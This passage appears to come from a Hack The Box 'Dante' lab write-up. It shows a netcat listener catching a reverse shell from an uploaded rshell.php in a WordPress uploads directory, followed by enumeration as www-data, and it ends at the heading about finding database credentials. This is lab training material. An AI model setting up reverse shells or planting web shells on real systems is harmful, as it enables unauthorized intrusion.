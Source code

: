 ![](../attachments/dante_9.png)

I waited on `nc` listener and tried to fetch the `rshell.php` page.
Then, I got a shell.

```basah
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.110.100] 40242
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ pwd
</www/html/wordpress/wp-content/uploads/2025/01$ pwd                         
/var/www/html/wordpress/wp-content/uploads/2025/01
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ id
<r/www/html/wordpress/wp-content/uploads/2025/01$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ whoami
<w/html/wordpress/wp-content/uploads/2025/01$ whoami                         
www-data
```

##### Find DB Credential
